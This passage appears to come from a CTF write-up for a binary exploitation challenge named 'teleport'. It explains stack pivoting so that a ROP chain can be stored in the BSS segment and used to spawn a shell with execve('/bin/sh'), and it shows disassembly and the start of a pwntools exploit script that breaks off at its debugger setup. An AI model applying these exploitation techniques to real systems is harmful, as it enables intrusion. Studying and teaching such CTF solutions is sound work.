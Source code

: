 Therefore, I used the Stack Pivoting technique to save a longer ROP payload in the BSS segment, allowing for more extensive manipulation of the program's execution flow. This technique involves manipulating the stack pointer and redirecting it to a location where the longer payload is stored, thus achieving more control over the program's behavior.
Below are the instructions that I used to store the ROP payload in the BSS segment:
```c
.text:0000000000401D23                 lea     rax, [rbp-0x30] <-- cool_thing+0xb6
.text:0000000000401D27                 mov     edx, 0x40
.text:0000000000401D2C                 mov     rsi, rax
.text:0000000000401D2F                 mov     edi, 0
.text:0000000000401D34                 call    read
...
```

Since we can overwrite also overwrite the RBP, we doesn't need to use gadget to set the rbp register like `pop rbp` anymore. Indeed, in the `cool_thing1()` function, we can input 16 bytes of data into the global variable anu, which is stored in the BSS segment. This presents an opportunity to save a new BSS address that can be used as the target for storing the ROP payload. Additionally, it can be used to store instructions for operations such as `lea rax, [rbp-0x30]; mov edx ; ... ; call read` to create a ROP payload. I decided to create a ROP to call `read(0, &anu, ...)` which will be used to save my ROP payload to spawn shell by calling `sys_execve('/bin/sh', NULL, NULL)`.

Here's my exploit to solve this challenge.

<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/teleport"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 1470
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *cool_thing2+0x70
```